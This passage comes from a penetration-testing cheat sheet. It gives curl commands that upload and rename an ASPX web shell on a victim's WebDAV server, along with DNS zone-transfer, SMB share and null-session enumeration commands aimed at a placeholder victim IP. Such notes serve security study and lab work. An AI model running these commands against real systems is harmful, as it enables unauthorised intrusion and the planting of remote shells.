 ```bash 
 The reason of this; the victim system noticed the shell we threw and erased the gaps.
 
3. To protect the spaces, we should use the command "--data-binary";
 curl -X PUT http://<victim_ip>/brc_shell.txt --data-binary @shell.aspx
 curl -X MOVE -H 'Destination:http://<victim_ip>/shell.aspx' http://<victim_ip>/brc_shell.txt
```
******************************************************************************************************************************

# WebDAV Server Attacks
```bash
1. What types of files can I upload to the victim system?
 davtest --url http://<victim_ip>
```
-------------------------------------------------------------------------------------------------------------------------------

# DNS ###

1. Firstly add the domain information detected during port scans to the file "/etc/hosts";
```
1. Then check the DNS servers;
 dig ns <domain_name>
 
 2. nslookup
 >server <victim_ip>

3. For zone transfer;
 dig @ns1.example.com example.com axfr

 dig axfr @<ip> Host

 or

 host -l <domain_name> <victim_ip>

 Note: "dnsrecon" tool can also be used for this.
```
-------------------------------------------------------------------------------------------------------------------------------

# SMB ###
```bash
#Controlling SMB shares;
 smbmap -H <victim_ip>


 smbmap -R <folder> -H <IP>  # Recuresive search 

  smbmap -R <folder> -H <IP> --depth 5    


 smbclient -L //IP
 
#Connect to SMB shares;
 smbclient  //<victim_ip>//share_name
 smbclient  //<victim_ip>//share_name -U mike
 smbclient //<ip>/Users -U
 
#Check null sessions;
 rpcclient -U "" -N <victim_ip>
  > srvinfo
  > enumdomusers
```